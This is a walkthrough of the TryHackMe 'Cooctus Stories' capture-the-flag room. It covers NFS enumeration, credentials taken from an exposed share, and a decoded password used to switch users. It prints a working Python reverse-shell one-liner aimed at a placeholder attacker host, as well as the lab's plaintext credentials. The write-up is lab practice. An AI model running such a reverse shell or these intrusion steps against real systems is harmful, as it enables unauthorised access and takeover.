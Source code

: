 # Cooctus Stories

![image](https://user-images.githubusercontent.com/5285547/137158401-c5ca65f3-6911-4fc2-b8ca-6e6fa75d9cd8.png)

Room link: https://tryhackme.com/room/cooctusadventures


## Enumeration

Nmap 

```
PORT      STATE SERVICE  VERSION
111/tcp   open  rpcbind  2-4 (RPC #100000)
2049/tcp  open  nfs_acl  3 (RPC #100227)
33785/tcp open  mountd   1-3 (RPC #100005)
35851/tcp open  mountd   1-3 (RPC #100005)
41045/tcp open  nlockmgr 1-4 (RPC #100021)
50903/tcp open  mountd   1-3 (RPC #100005)
```

NFS (port 111)

```
rpcinfo 10.10.45.119 

program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100005    1    udp       0.0.0.0.191.125        mountd     superuser
    100005    1    tcp       0.0.0.0.131.249        mountd     superuser
    100005    1    udp6      ::.180.191             mountd     superuser
    100005    1    tcp6      ::.226.123             mountd     superuser
    100005    2    udp       0.0.0.0.207.251        mountd     superuser
    100005    2    tcp       0.0.0.0.198.215        mountd     superuser
    100005    2    udp6      ::.188.15              mountd     superuser
    100005    2    tcp6      ::.151.105             mountd     superuser
    100005    3    udp       0.0.0.0.228.147        mountd     superuser
    100005    3    tcp       0.0.0.0.140.11         mountd     superuser
    100005    3    udp6      ::.224.137             mountd     superuser
    100005    3    tcp6      ::.234.227             mountd     superuser
    100003    3    tcp       0.0.0.0.8.1            nfs        superuser
    100003    4    tcp       0.0.0.0.8.1            nfs        superuser
    100227    3    tcp       0.0.0.0.8.1            -          superuser
    100003    3    udp       0.0.0.0.8.1            nfs        superuser
    100227    3    udp       0.0.0.0.8.1            -          superuser
    100003    3    tcp6      ::.8.1                 nfs        superuser
    100003    4    tcp6      ::.8.1                 nfs        superuser
    100227    3    tcp6      ::.8.1                 -          superuser
    100003    3    udp6      ::.8.1                 nfs        superuser
    100227    3    udp6      ::.8.1                 -          superuser
    100021    1    udp       0.0.0.0.186.205        nlockmgr   superuser
    100021    3    udp       0.0.0.0.186.205        nlockmgr   superuser
    100021    4    udp       0.0.0.0.186.205        nlockmgr   superuser
    100021    1    tcp       0.0.0.0.160.85         nlockmgr   superuser
    100021    3    tcp       0.0.0.0.160.85         nlockmgr   superuser
    100021    4    tcp       0.0.0.0.160.85         nlockmgr   superuser
    100021    1    udp6      ::.231.97              nlockmgr   superuser
    100021    3    udp6      ::.231.97              nlockmgr   superuser
    100021    4    udp6      ::.231.97              nlockmgr   superuser
    100021    1    tcp6      ::.168.99              nlockmgr   superuser
    100021    3    tcp6      ::.168.99              nlockmgr   superuser
    100021    4    tcp6      ::.168.99              nlockmgr   superuser
```

NFS (Port 2049)

Source: https://book.hacktricks.xyz/pentesting/nfs-service-pentesting

```
showmount -e  10.10.45.119

Export list for 10.10.45.119:
/var/nfs/general *
```

So we see we maybe able mount the nfs share. 

```
mkdir /mnt/new_back
sudo mount -t nfs 10.10.45.119:/var/nfs/general /mnt/new_back -o nolock
```

```
ls /mnt/new_back
credentials.bak

cat credentials.bak 
paradoxial.test
ShibaPretzel79
```

## Port 8080

http://10.10.45.119:8080/

http://10.10.45.119:8080/login (found using ffuf)

After loggin in with the above creds found. We can test some commands in the payload tester.. 

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image](https://user-images.githubusercontent.com/5285547/137162702-85679986-63d1-4bf9-8714-7e6cd5404a46.png)

Now we can get our first flag and start on enumeration again.. 


## User 2

From the crontabs we can see a file running every minuet by szymex

```bash
* *     * * *   szymex  /home/szymex/SniffingCat.py
```

Looking at the script we can edit it to get the password for the encrypted password. 

```
#!/usr/bin/python3

import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc

line = "pureelpbxr"
enc_pw = encode(line)
print(enc_pw)
```

With the new password we can login as syzmex and get his flag! 

```
su syzmex
cherrycoke
```

## User 3


